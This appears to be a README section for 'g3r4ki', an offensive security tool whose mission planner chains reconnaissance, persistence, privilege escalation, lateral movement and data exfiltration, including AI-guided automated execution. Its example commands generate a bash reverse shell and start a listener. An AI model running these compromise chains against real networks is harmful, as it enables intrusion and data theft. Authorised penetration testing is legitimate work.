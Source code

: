 ## Mission Planner

The Mission Planner orchestrates complex offensive operations using multiple modules in sequence.

### Mission Types

- Reconnaissance
- Initial Access
- Persistence
- Privilege Escalation
- Lateral Movement
- Data Exfiltration
- Full Compromise

### Features

- **Mission Templates**: Pre-configured mission workflows
- **Custom Missions**: Create custom module chains
- **AI Guidance**: AI-assisted mission planning and execution
- **Automated Execution**: Hands-off mission execution with decision points
- **Documentation**: Automatic mission documentation and reporting

### Commands

```bash
# List available mission templates
python g3r4ki.py offensive mission list

# Start a reconnaissance mission
python g3r4ki.py offensive mission start --type recon --target 192.168.1.0/24

# Create a custom mission
python g3r4ki.py offensive mission create --name "Corp Penetration" --steps "recon,access,persistence,privesc,exfil"

# Run a custom mission
python g3r4ki.py offensive mission run --name "Corp Penetration" --target-network 10.0.0.0/24

# View mission status and results
python g3r4ki.py offensive mission status --id MISSION1
python g3r4ki.py offensive mission report --id MISSION1 --output /path/to/report.pdf
```

## Usage Examples

### Basic Penetration Testing Workflow

```bash
# Start interactive shell
python g3r4ki.py interactive

# In the interactive shell:
g3r4ki> offensive recon scan --target 192.168.1.0/24
g3r4ki> offensive vuln scan --target 192.168.1.10 --port 80,443,8080
g3r4ki> offensive shell generate --type reverse --language bash --lhost 192.168.1.5 --lport 4444
g3r4ki> offensive shell listen --port 4444
```
